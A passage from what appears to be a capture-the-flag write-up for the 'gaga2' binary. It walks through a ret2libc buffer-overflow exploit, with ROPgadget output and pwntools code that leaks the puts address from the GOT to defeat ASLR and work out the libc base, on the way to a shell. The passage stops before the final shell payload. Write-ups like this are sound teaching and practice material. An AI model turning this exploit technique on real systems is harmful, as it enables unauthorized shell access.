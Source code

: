 ```bash
```
{: .nolineno }

We want to call `system("/bin/sh")` to get a shell on the remote server, but since ASLR is enabled we must first leak the address of a function from the *GOT* to get a libc-address. When we have the libc-address we can find the base-address of libc, and from there find and call the `system` function.

From the `main` function we see that the buffer is 60 bytes. We can find the offset to the `rip` using a cyclic pattern (this is done in `gaga0`), or we can yolo it since often when we have a 60 byte buffer the offset ends up being at 72.

### Gaga2 - Manual
`ROPgadget` shows us the available gadgets for use. We will need `pop rdi` to pass arguments to functions (e.g. *"/bin/sh"* for the *system call*), and potentially a `ret` gadget for possible stack-alignment issues.
```bash
$ ROPgadget --binary gaga2
Gadgets information
============================================================
0x00000000004012b3 : pop rdi ; ret
0x000000000040101a : ret
```
{: .nolineno }

The first payload will overflow the buffer with 72 bytes, then call `puts(puts)` which gives us the GOT address of puts (leaking libc), and then call `main()` again to make the binary call `gets()` again.

```python
offset = 72
libc = exe.libc
pop_rdi = 0x4012b3
ret = 0x40101a

io = start()
io.recvuntil(b"input:")

payload = b"\x90" * offset
payload += pack(pop_rdi)
payload += pack(exe.got.puts)
payload += pack(exe.sym.puts)
payload += pack(exe.sym.main)

io.sendline(payload)
```
{: .nolineno }

We then parse the address of `puts` from *GOT* printed out, and calculate the base address of libc
```python
puts_leak = u64(io.recvline()[1:].rstrip().ljust(8, b"\x00"))
log.success(f"Puts @ {hex(puts_leak)}")
libc.address = puts_leak - libc.sym.puts
log.success(f"Libc @ {hex(libc.address)}")
```
{: .nolineno }
